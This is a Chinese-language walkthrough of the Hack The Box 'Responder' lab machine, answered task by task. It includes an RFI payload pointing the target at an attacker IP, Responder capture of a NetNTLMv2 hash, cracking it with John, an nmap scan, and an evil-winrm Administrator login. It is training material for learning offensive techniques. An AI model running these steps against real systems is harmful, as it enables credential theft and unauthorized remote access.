Responder


任务1

使用IP地址访问Web服务时，我们被重定向到的域是什么？

使用curl 访问地址返回http://unika.htb



答案为unika.htb

任务2 

服务器上使用哪种脚本语言生成的网页

将本地hosts文件添加上靶机IP和跳转地址，不然访问不了这个服务器

```
echo "10.129.107.146 unika.htb" >> /etc/hosts
```

使用wappalyzer可以看到网站是使用PHP语言开发的




任务3

用于加载网页的不同语言版本的URL参数的名称是什么？


任务4

以下“page”参数的哪些值是利用本地文件包含（LFI）漏洞的示例：“french.html”，“//10.10.14.6/somefile“，“../../../../../../../../ windows/system32/drivers/etc/hosts”，“minikatz.exe”





任务5

下列`page`参数的哪个值是利用远程文件包含（RFI）漏洞的示例：“french.html”，“//10.10.14.6/somefile“，“../../../../../../../../ windows/system32/drivers/etc/hosts”，“minikatz.exe”




任务6

NTLM代表什么？

New Technology LAN Manager

任务7

在响应程序实用程序中使用哪个标志来指定网络接口？

-i

任务8

有几个工具可以接受NetNTLMv 2质询/响应，并尝试数百万个密码，以查看其中是否有任何密码生成相同的响应。一个这样的工具通常被称为“john”，但全名是什么？.

John the Ripper

任务9

管理员用户的密码是什么？

使用ifconfig查看网卡名称并记录IP地址




首先启动responder并监听本地的tun0网卡



使用远程文件包含

```
payload:http://unika.htb/index.php?page=//10.10.14.48/somefile
```



监听到hash格式的密码


将hash值保存到hash文件中并用john进行解密（有点久，`hashcat`有相同功能但是）

```
john hash
```




密码为badminton

任务10

我们将使用Windows服务（即在机器上运行）使用我们恢复的密码远程访问响应者机器。它监听哪个TCP端口？	通常端口为5985/tcp (http) 5986/tcp(https) 

Server2008R2及往上的系统中默认中都开启该服务，从Server2012系统后开始，该WinRM服务便被设置为默认开启。Win7系统中却默认安装此WinRM服务，但是默认为禁用状态，Win8系统和Win10系统也都默认开启WinRM服务。

使用nmap扫描出来为：5985 

```
nmap -sV -p 5985 10.129.45.117
```




任务10 提交flag

知道服务器开启WindowsRemoteManagementd（winRM  win远程管理）了之后，使用`evil-winrm`工具连接服务器

```
evil-winrm -i 10.129.135.227 -u Administrator -p badminton
```



flag的地址在 C:\Users\mike\Desktop




